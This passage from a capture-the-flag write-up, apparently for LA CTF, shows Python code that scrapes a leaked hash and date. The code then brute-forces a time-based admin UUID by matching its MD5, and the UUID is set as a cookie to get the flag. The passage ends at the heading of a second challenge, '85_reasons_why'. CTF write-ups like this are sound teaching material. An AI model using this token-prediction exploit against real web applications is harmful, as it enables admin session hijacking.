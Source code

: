 ```python
    info.hash = re.findall(r"(?<=<tr><td>).*?(?=</td></tr>)", res.text)[49]
    return info


def compare_uuid(count, info=get_info()):
    script = """
    const uuid = require('uuid');
    const crypto = require('crypto')

    function randomUUID() {
        return uuid.v1({
            'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69],
            'clockseq': 0b10101001100100,
            "msecs": Date.parse("%s")+%d
        });
    }
    console.log(randomUUID())
    """ % (info.date, count)

    uuid = check_output(['node', '-e', script]).decode().strip()
    md5 = hashlib.md5()
    md5.update(("admin"+uuid).encode())
    if md5.hexdigest() == info.hash:
        print("admin uuid: "+uuid)
        return
    print(md5.hexdigest(), info.hash, uuid, info.uuid)
    compare_uuid(count+1)


compare_uuid(0)
```

After running it will generate an admin UUID like the following:

![](https://i.imgur.com/dYD8Yaf.png)

We put it in the cookie, and we'll get the flag.

![](https://i.imgur.com/sWa4R1x.png)


# 85_reasons_why
## Description

If you wanna catch up on ALL the campus news, check out my new blog. It even has a reverse image search feature!

85-reasons-why.lac.tf

## How to solve
### TL;DR
